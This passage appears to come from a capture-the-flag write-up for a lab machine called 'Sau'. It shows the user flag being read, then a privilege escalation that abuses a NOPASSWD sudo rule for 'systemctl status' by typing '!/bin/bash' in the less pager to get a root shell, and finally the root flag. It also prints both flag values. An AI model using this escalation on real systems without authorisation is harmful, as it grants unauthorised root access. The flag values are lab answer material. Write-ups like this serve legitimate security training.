We are logged in as user `puma` and can find the user flag in our home directory:
```
puma@sau:/opt/maltrail$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ ls -al /home/
total 12
drwxr-xr-x  3 root root 4096 Apr 15  2023 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
drwxr-xr-x  6 puma puma 4096 Oct 30 20:13 puma
puma@sau:/opt/maltrail$ ls -al /home/puma/
total 40
drwxr-xr-x 6 puma puma 4096 Oct 30 20:13 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
drwxr-xr-x 3 puma puma 4096 Oct 30 20:13 .local
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
drwxr-xr-x 2 puma puma 4096 Oct 30 20:17 .ssh
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Oct 30 19:20 user.txt
puma@sau:/opt/maltrail$ cat /home/puma/user.txt 
ebaf5bcd8644d501dba5c7c0d7117e4c
puma@sau:/opt/maltrail$ 
```

### Privilege escalation
A quick look into the sudo rights, reveals that we have `NOPASSWD` right for the command `/usr/bin/systemctl status trail.service`
```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$ 
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo) this can be abused to escalate our privileges.

If we run the command, the output invokes the default pager. Which is mostly `less`. To get a shell from `less` we can enter `!/bin/bash`:
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service 
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2023-10-30 20:42:53 UTC; 14min ago

[...]

Oct 30 20:57:08 sau sudo[1224]: pam_unix(sudo:session): session opened for user root by (uid=0)
Oct 30 20:57:25 sau sudo[1227]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER=root ; COMMAND=list
Oct 30 20:57:27 sau sudo[1228]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Oct 30 20:57:27 sau sudo[1228]: pam_unix(sudo:session): session opened for user root by (uid=0)
!/bin/bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we got a root shell.

### Root flag
The last thing that we have to do is to grab the root flag:
```
root@sau:/opt/maltrail# cat /root/root.txt 
205dcb595568e516ebea40bdb3f15c96
root@sau:/opt/maltrail# 
```